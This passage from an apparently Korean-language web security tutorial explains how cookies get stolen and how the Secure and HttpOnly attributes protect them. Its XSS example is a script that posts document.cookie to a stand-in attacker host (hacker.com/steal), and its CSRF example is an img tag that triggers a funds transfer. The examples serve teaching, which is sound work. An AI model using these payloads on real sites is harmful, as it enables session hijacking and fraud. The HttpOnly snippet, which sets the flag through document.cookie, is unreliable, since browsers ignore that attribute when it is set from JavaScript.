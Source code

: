 ```
HTTP 통신에서 쿠키가 평문으로 전송됨
→ 공용 와이파이에서 패킷 캡처로 쉽게 탈취 가능
```

### 2. **XSS (Cross-Site Scripting) 공격**

```javascript
// 악성 스크립트가 삽입되면
<script>
  // 모든 쿠키를 해커 서버로 전송
  fetch('https://hacker.com/steal', {
    method: 'POST',
    body: document.cookie
  });
</script>
```

### 3. **CSRF (Cross-Site Request Forgery) 공격**

```html
<!-- 악성 사이트에서 -->
<img src="https://victim.com/transfer?amount=1000&to=hacker" />
<!-- 쿠키가 자동으로 함께 전송되어 요청이 성공 -->
```

## 🛡️ 쿠키 보안 속성 완벽 가이드

### **1. Secure 속성**

```javascript
// ✅ HTTPS에서만 전송
document.cookie = "token=abc123; Secure";
```

**효과**:

- HTTP 연결에서는 쿠키 전송 차단
- 네트워크 스니핑 공격 방지
- 중간자 공격(MITM) 차단

### **2. HttpOnly 속성**

```javascript
// ✅ JavaScript로 접근 불가
document.cookie = "token=abc123; HttpOnly";
```

**효과**:

- `document.cookie`로 접근 차단
- XSS 공격으로부터 쿠키 보호
- 서버에서만 쿠키 읽기 가능

### **3. SameSite 속성**
